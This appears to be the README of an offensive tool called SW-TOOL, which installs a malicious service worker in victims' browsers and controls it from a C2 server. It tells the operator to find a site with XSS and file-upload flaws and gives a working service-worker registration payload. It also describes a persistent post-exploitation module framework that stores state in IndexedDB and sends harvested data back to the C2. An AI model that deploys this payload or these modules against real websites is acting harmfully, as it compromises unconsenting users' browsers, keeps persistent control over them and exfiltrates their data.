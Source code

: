 # Welcome to SW-TOOL

## Info
This is just a alpha version. The proxying functions by and large is working fine. 
To setup:
1. run start.sh to:
	- startup the proxy on port 8888. Point your browser proxy to that
	- C2 Controller is listening on port 5000. This is the C@ service the SW communicates with
2. Find a vulnerable website with  XSS + fileupload
   - Upload C2_HOST/modules/sw.js
   - Use XSS to install the SW payload. Use either C2_HOST/modules/xss generater payload. For example, the payload would be:

```
navigator.serviceWorker.register('/PATH_TO_SW.js').then(function(s){
	setTimeout(function(){s.sync.register('outbox');s.sync.register('outbox2');s.sync.register('outbox3');s.sync.register('outbox4');Notification.requestPermission().then(function(){s.active.postMessage({'p':'1'})});}, 100);
});
```

To create a custom post-exploitation module:
1. Create a JS with the MODULE_FILENAME.js under: `app/templates/modules`
2. If you plan to use IndexedDB to save current status or for whatever reasons, you will need to wake up the DB with:
```
WriteIDB("MODULE_NAME_init", 1);
```
3. You then need to register the module within the main SW on the victim. In this way, if the SW goes inactive and wakes up again, the module will resume execution:
```
registerModule('MODULE_NAME');
```
4. If you need to read previous saved data in IndexedDB, use the following:
```
var MODULE_NAME_data;
new Promise((res, rej) => {
  ReadIDB("MODULE_NAME", rej);
}).catch(function(p){
  if(p == undefined){
    MODULE_NAME_data = 1; // DEFAULT value
  }else{
    MODULE_NAME_data = p; // previous value
  }
});
```
5. After the initialisation, define your module logic:
```
function MODULE_NAME_Logic(){
	// do stuff....
}
MODULE_NAME_Logic();   // if you need to read data from IndexedDB first, call this in the IDB Promise catch section after querying the value(s)
```
6. You can use the module API `sendModuleResultToC2` to send data to the C2:
```
sendModuleResultToC2('MODULE_NAME', `data_from_module`);
```
7. At the end, you will need to deregister the module from the main SW. This will ensure that if the SW wakes up again, the module will not run a second time.
```
function MODULE_NAME_Logic(){
	// do stuff....
	deregisterModule('MODULE_NAME');
}
```
8. As a starting point for your module please refer to a module template under `app/templates/modules/template.js`
9. Any results you send from the module will end up being visible on the dashboard under the agent that ran it
10. If you want to run the module again after it has already been executed, you can delete the module against the agent on the dashboard and execute it again

## License

This tool is released under the [MIT License](https://opensource.org/licenses/MIT).